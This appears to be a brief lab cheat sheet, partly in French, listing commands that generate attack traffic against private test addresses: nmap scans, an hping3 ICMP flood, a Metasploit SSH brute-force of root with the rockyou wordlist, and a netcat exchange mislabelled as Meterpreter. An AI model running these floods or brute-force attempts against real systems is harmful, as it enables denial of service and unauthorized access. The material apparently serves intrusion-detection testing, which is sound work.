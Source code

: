 NMAP TCP SYN Scan :
```bash
nmap -sS 192.168.100.10
```

NMAP UDP Scan :
```bash
nmap -sU 192.168.100.10
```

ICMP Flood :
```bash
sudo hping3 -1 --flood 192.168.100.10
```

Tunnel ICMP :
```bash
ping -s 2000 192.168.100.10   
```

SSH bruteforce :
```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.100.12
set USERNAME root
set PASSWORD /usr/share/wordlists/rockyou.txt
run
```

Meterpreter sur port 4444 :
```
# Cible
nc -lvp 4444

# Attaquant
echo "test" | nc 192.168.100.10 4444
```

